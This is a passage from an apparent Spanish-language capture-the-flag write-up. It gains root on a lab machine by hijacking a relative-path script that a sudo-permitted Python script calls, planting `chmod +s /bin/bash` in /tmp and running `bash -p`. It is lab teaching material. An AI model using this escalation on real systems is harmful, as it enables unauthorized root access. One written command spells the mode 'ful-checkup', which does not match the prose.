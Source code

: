 Podemos ver que al ejecutar el modo `full-checkup`, el script ejecuta el script en [[Bash]] `full-checkup.sh`, pero lo busca en el directorio en el que se ejecute. Por tanto, podríamos crear en `/tmp` un script en bash con el mismo nombre:

```bash
nano full-checkup.sh
```
```bash
#!/bin/bash
chmod +s /bin/bash
```

Con esto daremos privilegios *suid* al binario de bash. Lo ejecutamos yendo a `/tmp` y ejecutandolo mediante:

```bash
cd /tmp
```
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py ful-checkup
```

Así, podremos conseguir una shell privilegiada con:

```bash
bash -p
```

Y tan sólo faltará acceder a `/root/root.txt` (`f493afb90ef4f63d38ce1b6a4e9687bf`). Enhorabuena! Has pwneado la máquina!